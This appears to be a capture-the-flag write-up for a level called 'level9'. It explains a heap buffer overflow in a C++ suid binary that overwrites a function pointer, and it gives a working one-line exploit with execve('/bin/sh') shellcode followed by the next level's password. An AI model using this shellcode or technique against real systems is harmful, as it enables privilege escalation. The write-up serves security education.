

# Level9

## Context & Explanation
 * There is one file in our home, ```level9```, belonging to ```bonus0``` user, with suid.
 * Here's the decompiled source code we propose for this binary: [source.cpp](source.cpp)

 * We run the program with gdb and we observe that:
 	* In the `main()`
		* Object creation:
			1. `_Znwj@plt()` is called to allocate a new instance of class, for a total size of  `0x6c`, which is on the heap
			2. `_ZN1NC1Ei()` is called to construct our new instance of class, with a function pointer pointer, an unitialized buffer `buf[0x64]` and a value at the end.
		* We repeat a second time these 2 operations.
		* `_ZN1N13setAnnotationEPc()` is then called on object_1
			* a `memcpy()` is done on `av[1]` to the internal buffer `buf[0x64]` of the instance.
		* Finally, the function pointer pointer of the 2nd object is called.

## Exploited vulnerability

* We will use a Buffer-Overflow attack on the `memcpy()` to make use of the 2nd function pointer pointer to execute a shellcode.

* The shellcode we used is a call to `system("/bin/sh")`

* Here is a visual representation memory layout : 

* So using the blue offsets on this visual representation :

During the `memcpy()` we change the second object function pointer pointer at `0x70`, so it points to the begining of the first object buffer at `0x4`, which himself points at `0x8`, where starts our shellcode.

## Resolution

```sh
./level9 `python -c "print('10a00408'.decode('hex') + '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x0b\x53\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xcd\x80' + '\x90' * 79 +  '0ca00408'.decode('hex'))"`

$ cd ..
$ cd bonus0
$ cat .pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```
